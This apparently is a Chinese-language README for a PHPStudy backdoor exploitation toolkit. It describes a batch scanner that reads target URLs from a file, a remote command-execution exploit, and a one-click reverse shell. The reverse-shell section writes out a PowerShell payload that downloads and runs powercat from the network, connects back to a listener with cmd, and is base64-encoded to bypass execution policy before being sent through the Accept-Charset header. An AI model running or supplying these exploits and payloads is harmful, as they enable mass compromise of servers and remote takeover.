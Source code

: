 # PHPStudy_BackDoor

### phpstudy_backdoor_poc.py
	多进程批量检测脚本，自动读取urls.txt中内容，然后进行批量检测
	检测结果如发现漏洞会存入phpstudy_backdoor_urls.txt中

##### 运行demo：
```
python phpstudy_backdoor_poc.py

[+] http://127.0.0.1 is vulnerable.
[-] http://192.168.1.1 is invulnerable.
[*] http://192.168.1.2 Looks Like Something Wrong.
[*] http://192.168.1.3 Looks Like Something Wrong.
```

### phpstudy_backdoor_exp.py
	漏洞利用脚本，操作精简。
	Usage: python3 phpstudy_backdoor_exp.py [url] [command]

##### 运行demo：
```
python phpstudy_backdoor_exp.py 127.0.0.1 whoami

[+] Command Execute Successful.
rabbitmask\rabbitmask
```

### phpstudy_backdoor_shell.py
	脚本一键反弹shell，自动bypass，关于原理后边给教程，借助了powercat、powershell等，
	所以请在powershell中执行`set-executionpolicy remotesigned`允许脚本执行。
	Usage: python3 phpstudy_backdoor_exp.py [url]
	#请配置监听地址与端口
	listen_host='192.168.1.254'
	listen_port='6666'
	
```
#第一步借助powershell配置反弹shell的payload并加密
$text = "IEX (New-Object  System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.1.254 -p 6666 -e cmd;" 
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text) 
$EncodedText =[Convert]::ToBase64String($Bytes) 
$EncodedText > bs64.txt

#第二步借助powershell进行bypass的处理
system('powershell -exec bypass -encodedcommand [bs64.txt内容]');

#第三步base64加密交给Accept-Charset参数提交payload
Accept-Charset: [base64(bypass)]
```


##### 运行demo：
```
python phpstudy_backdoor_shell.py 127.0.0.1

nc -lvvp [port]
```

